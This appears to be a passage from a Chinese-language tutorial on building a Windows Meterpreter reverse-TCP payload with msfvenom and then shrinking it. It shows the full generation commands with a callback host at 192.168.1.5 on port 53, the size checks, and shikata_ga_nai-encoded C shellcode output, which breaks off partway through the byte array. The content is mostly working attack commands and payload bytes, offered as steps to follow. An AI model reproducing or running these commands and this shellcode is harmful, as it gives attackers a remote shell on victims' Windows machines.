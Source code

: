 ![](../do/media/05b541c239afdafa628b0ef194eddcb7.jpg)

### payload生成：
```code
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f exe > First.exe
```

原始payload大小如下：  
73802字节，大概在72KB

```code
root@John:/tmp# du ‐sb First.exe
73802 First.exe
```

### 第一次优化payload：
提取windows/meterpreter/reverse_tcp shellcode

```code
root@John:/tmp# msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐b '\x00' ‐f c
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of c file: 1571 bytes
unsigned char buf[] =
"\\xd9\\xc3\\xba\\xa1\\x43\\xe5\\x72\\xd9\\x74\\x24\\xf4\\x5d\\x29\\xc9\\xb1"
"\\x56\\x31\\x55\\x18\\x03\\x55\\x18\\x83\\xc5\\xa5\\xa1\\x10\\x8e\\x4d\\xa7"
"\\xdb\\x6f\\x8d\\xc8\\x52\\x8a\\xbc\\xc8\\x01\\xde\\xee\\xf8\\x42\\xb2\\x02"
"\\x72\\x06\\x27\\x91\\xf6\\x8f\\x48\\x12\\xbc\\xe9\\x67\\xa3\\xed\\xca\\xe6"
"\\x27\\xec\\x1e\\xc9\\x16\\x3f\\x53\\x08\\x5f\\x22\\x9e\\x58\\x08\\x28\\x0d"
"\\x4d\\x3d\\x64\\x8e\\xe6\\x0d\\x68\\x96\\x1b\\xc5\\x8b\\xb7\\x8d\\x5e\\xd2"
"\\x17\\x2f\\xb3\\x6e\\x1e\\x37\\xd0\\x4b\\xe8\\xcc\\x22\\x27\\xeb\\x04\\x7b"
"\\xc8\\x40\\x69\\xb4\\x3b\\x98\\xad\\x72\\xa4\\xef\\xc7\\x81\\x59\\xe8\\x13"
"\\xf8\\x85\\x7d\\x80\\x5a\\x4d\\x25\\x6c\\x5b\\x82\\xb0\\xe7\\x57\\x6f\\xb6"
"\\xa0\\x7b\\x6e\\x1b\\xdb\\x87\\xfb\\x9a\\x0c\\x0e\\xbf\\xb8\\x88\\x4b\\x1b"
"\\xa0\\x89\\x31\\xca\\xdd\\xca\\x9a\\xb3\\x7b\\x80\\x36\\xa7\\xf1\\xcb\\x5e"
"\\x04\\x38\\xf4\\x9e\\x02\\x4b\\x87\\xac\\x8d\\xe7\\x0f\\x9c\\x46\\x2e\\xd7"
```